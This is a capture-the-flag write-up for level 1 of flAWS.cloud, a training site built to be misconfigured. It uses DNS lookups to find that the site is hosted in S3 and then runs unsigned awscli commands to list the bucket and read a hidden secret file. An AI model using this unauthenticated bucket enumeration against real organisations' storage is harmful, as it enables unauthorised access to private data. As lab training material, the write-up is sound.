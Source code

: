 # flAWS.cloud Writeup - Level 1
Level one is fairly simple, and is about finding the correct subdomain to get to the next level.

The site flaws.cloud is hosted as an AWS S3 bucket. This is a great way to host a static site, and is similar to hosting a site on github pages.

Some interesting facts about hosting a site within an S3 bucket:
 - When hosting a site as an S3 bucket, the bucket name (flaws.cloud) must be the same as the domain name (flaws.cloud)
 - S3 buckets are a global name space, meaning two people cannot have buckets with the same name.
  - The result of this is that you could create a bucket named facebook.com and Facebook would never be able to host their main site via S3 hosting.

Back to the challenge...
---
You can determine the site is hosted on AWS as an S3 bucket by running a DNS lookup on the domain `flaws.com`, such as:
```
dig any flaws.cloud

; <<>> DiG 9.16.15-Debian <<>> any flaws.cloud
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52294
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;flaws.cloud.			IN	ANY

;; ANSWER SECTION:
flaws.cloud.		5	IN	A	52.218.168.202
flaws.cloud.		170783	IN	NS	ns-448.awsdns-56.com.
flaws.cloud.		170783	IN	NS	ns-966.awsdns-56.net.
flaws.cloud.		170783	IN	NS	ns-1061.awsdns-04.org.
flaws.cloud.		170783	IN	NS	ns-1890.awsdns-44.co.uk.
flaws.cloud.		900	IN	SOA	ns-1890.awsdns-44.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400

;; Query time: 72 msec
;; SERVER: 192.168.75.2#53(192.168.75.2)
;; WHEN: Mon Jul 12 11:25:17 EDT 2021
;; MSG SIZE  rcvd: 257
```
Visiting `52.218.168.202` takes you to `https://aws.amazon.com/s3/`, confirming that flaws.cloud is hosted as an S3 bucket.

You can then run nslookup to get the AWS region:
```
nslookup 52.218.168.202

202.168.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.

Authoritative answers can be found from:
```
Now that you have the region of the AWS S3 bucket, due to some misconfigurations you can simply read files using the `awscli`:
```
aws s3 ls s3://flaws.cloud --no-sign

2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```
Then, either navigate to http://flaws.cloud/secret-dd02c7c.html, or copy it from the bucket, into your stdout using `awscli` again:
```
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html - --no-sign

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
            border-width: 1px; border-style: solid;} 
        </style>
    </head>
<body 
  text="#00d000" 
  bgcolor="#000000"  
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">
    
<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_ 
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>
```

Thus, the next level is at http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.
